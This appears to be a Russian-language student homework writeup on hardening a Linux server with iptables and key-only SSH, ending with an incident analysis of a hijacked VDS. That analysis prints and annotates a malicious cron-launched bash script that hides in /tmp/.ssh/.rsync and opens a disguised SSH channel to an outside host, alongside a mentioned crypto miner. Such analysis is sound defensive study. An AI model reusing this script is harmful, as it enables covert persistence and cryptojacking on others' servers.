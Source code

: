 

# Введение в UNIX-системы

## Домашняя работа

### Урок 8. Практика. Как защитить свой сервер



1. Настроить сетевой фильтр, чтобы из внешней сети можно было обратиться только к сервисам http и ssh (80 и 443).

   ```bash
   iptables -A INPUT -p tcp --dport=80 -j ACCEPT
   iptables -A INPUT -p tcp --dport=443 -j ACCEPT
   iptables -A INPUT -p tcp --dport=22 -j ACCEPT
   iptables -P INPUT DROP
   service iptables-persistent save
   ```

2. Запросы, идущие на порт 8080, перенаправлять на порт 80.

   ```bash
   iptables -t nat -A PREROUTING -p tcp --dport 8080 -j REDIRECT --to-port 80
   service iptables-persistent save
   ```

3. Настроить доступ по ssh только для вашего IP-адреса (или из всей сети вашего провайдера).

   ```sh
   iptables -I INPUT -s 192.168.0.202 -p tcp -m tcp --dport 22 -j ACCEPT
   iptables -I INPUT -p tcp -m tcp --dport 22 -j REJECT
   iptables -P INPUT DROP
   service iptables-persistent save
   ```

4. Создать нового пользователя, сгенерировать для него новые сертификаты. Настроить доступ на сервер вновь созданного пользователя с использованием сертификатов. Подключиться с помощью **putty** или **ssh** без ввода пароля (используя только сертификат).
   **Примечание: сертификат может быть подготовлен как в Ubuntu, так и с помощью puttygen в windows.*
   На стороне клиента (windows 11, windows terminal) выполняем:

   ```powershell
   ssh-keygen.exe -f gb-ubuntu-srv
   #Пароль устанавливать не будем
   scp .\gb-ubuntu-srv.pub sa@192.168.243:/home/sa/homepc_ilya_teterin.key
   ```

   На сервере gb-ubuntu-srv (192.168.0.243) выполняем: 

   ```bash
   mkdir ~/.ssh
   mv homepc_ilya_teterin.key ~/.ssh/authorized_keys
   ```

   Проверяем, что вход от пользователя по закрытому ключу работает в клиенте: 

   ```powershell
   ssh -i .\gb-ubuntu-srv sa@192.168.243
   ```

   Приводим аналогичные строчки в файле /etc/ssh/sshd_config к виду: 

   ```ini
   PubkeyAuthentication yes
   PasswordAuthentication no
   PermitRootLogin no
   ```

   ```bash
   #Перезапускаем сервис
   systemctl restart sshd
   ```

   

5. ** Ваши коллеги, студенты, настраивали VDS-сервер для использования на командном проекте. Через некоторое время сервер был заблокирован. Студенты связались с хостером, он предоставил abuse-письмо (настоящий IP-адрес машины студентов был заменен на 203.0.113.198)



Есть какое-то соединение (в состоянии открытия):

![image-20220304164139650](C:\Users\itete\AppData\Roaming\Typora\typora-user-images\image-20220304164139650.png)

Видим, что каждую минуту запускается каких то два скрипта: 

![image-20220304170139552](C:\Users\itete\AppData\Roaming\Typora\typora-user-images\image-20220304170139552.png)

первый скрипт:

![image-20220304170357166](C:\Users\itete\AppData\Roaming\Typora\typora-user-images\image-20220304170357166.png)

```bash
#!/bin/bash
dir1=~/.ttp            
dir2=/tmp/.ssh/.rsync
if [ -f $dir2/rsync ]                              #проверяется, есть ли путь /tmp/.ssh/.rsync/rsync
then                                               #если такой путь есть то 
cd $dir2 										   # переходим в /tmp/.ssh/.rsync
pss=`ps ax|grep "rsync -t -p"|grep -v grep|wc -l`  # в переменную закидываем кол-во процессов rsync -t -p

if [[ "$0" == "$dir2/start" && "$pss" == "0" ]]    #проверяет, что нет такого пути и кол-во процессов - 0
then
echo  "starting" > $dir1/do                        #~/.ttp/do пишет, что процесс начался
nohup ./rsync -t -p 14444 mofo@185.212.148.194 "bash storyteller" >> /dev/null &  #запускает ./rsync (SSH клиент) в режиме туннеля на хост 185.212.148.194 под юзером mofo на порт 144444 с переназначением псевдотерминала
fi    
else
 mkdir -p $dir2 2> /dev/null         #в противном случае - создаем /tmp/.ssh/.rsync 
 rsync -r $dir1/* $dir2 &> /dev/null #и копируем ~/.ttp в /tmp/.ssh/.rsync
fi
```

второй скрипт:

![image-20220304170432354](C:\Users\itete\AppData\Roaming\Typora\typora-user-images\image-20220304170432354.png)

Делает то же самое 

В папке ~/.ttp есть: 

майнер: 
![image-20220304172457594](C:\Users\itete\AppData\Roaming\Typora\typora-user-images\image-20220304172457594.png)



